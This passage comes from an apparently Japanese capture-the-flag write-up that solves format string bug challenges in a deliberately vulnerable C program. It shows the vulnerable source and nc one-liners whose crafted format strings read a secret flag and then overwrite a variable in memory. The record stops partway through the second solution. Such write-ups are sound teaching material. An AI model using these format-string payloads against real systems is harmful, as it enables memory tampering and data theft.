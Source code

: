 何度実行してもこのアドレスは変わりません。`printf(local);` と Format String Bug が存在しているので、これを利用してフラグを読み出してみましょう。

```
$ (echo -en '\x40\xa0\x04\x08%4$s'; echo neko) | nc (省略)
@taskctf{1t's_f0rm@_str1ng_4tt4ck!!}neko
secret address: 0x804a040
```

フラグが得られました。

```
taskctf{1t's_f0rm@_str1ng_4tt4ck!!}
```

## [Pwn 100] 334
> (問題サーバへの接続情報)
> 
> 添付ファイル: 334.c

`334.c` は以下のような内容でした。

```c
#include <stdio.h>

char s3cr37[32] = "taskctf{XXXXXXXX}\0";
int key = 0x12345678;

void get_flag(){
  printf("flag is %s\n", s3cr37);
}

int main(){
  char local[128];
  fgets(local,128,stdin);
  printf(local);
  printf("key address: 0x%x\n", &key);
  printf("key        : 0x%x\n", key);
  if(key==0x334)
    get_flag();
  return 0;
}
```

今度は `key` を `0x334` に書き換えればよいようです。先程と同じ要領で `key` のアドレスを得た後、FSB を利用して書き換えちゃいましょう。

```
$ nc (省略)
a
a
key address: 0x804a060
key        : 0x12345678
$ nc (省略)
b
b
key address: 0x804a060
key        : 0x12345678
$ (echo -en '\x60\xa0\x04\x08%816c%4$n'; echo neko) | nc (省略)
`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               �neko
key address: 0x804a060
```